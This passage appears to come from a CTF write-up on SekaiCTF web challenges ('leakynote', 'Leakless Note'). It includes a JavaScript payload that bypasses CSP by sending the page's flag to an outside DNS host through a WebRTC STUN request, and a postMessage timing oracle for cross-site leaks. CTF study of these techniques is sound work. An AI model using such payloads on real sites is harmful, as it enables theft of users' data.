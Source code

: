 But no worries, WebRTC is still useful. However, I couldn't figure out how to use it even after trying for a long time. In the end, I found a payload in another team's write-up on [CTFtime](https://ctftime.org/writeup/37702) and combined it with DNS:

``` js
var flag = document.childNodes[0].nodeValue.trim()
    .replace("SEKAI{", "").replace("}", "")
    .split("").map(c => c.charCodeAt(0)).join(".");
var p = new RTCPeerConnection({
    iceServers: [{
        urls: "stun:" + flag + ".29e6037fd1.ipv6.1433.eu.org:1337"
    }]
});
p.createDataChannel("d");
p.setLocalDescription()
```

### Leakless Note (4 solves)

This is an advanced version of the previously mentioned "leakynote" challenge. This time, the CSP is stricter with the addition of `default-src 'self'`, and there are no other CSS files on the page.

The scenario is the same: there is an iframe that may or may not load, and the goal is to detect this.

The solution provided by strellic is as follows:

``` js
// leakless note oracle
const oracle = async (w, href) => {
    const runs = [];
    for (let i = 0; i < 8; i++) {
        const samples = [];
        for (let j = 0; j < 600; j++) {
            const b = new Uint8Array(1e6);
            const t = performance.now();
            w.frames[0].postMessage(b, "*", [b.buffer]);
            samples.push(performance.now() - t);
            delete b;
        }
        runs.push(samples.reduce((a,b)=>a+b, 0));
        w.location = href;
        await sleep(500); // rate limit
        await waitFor(w);
    }
    runs.sort((a,b) => a-b);
    return {
        median: median(runs.slice(2, -2)),
        sum: runs.slice(2, -2).reduce((a,b)=>a+b,0),
        runs
    }
}
```

When you send a large message to the iframe, the time it takes will be different.

Another team opened 1000 tabs and measured the network time. In hindsight, it seems quite reasonable. If the iframe has a status code of 200, it will generate a lot of requests, slowing down the network speed.
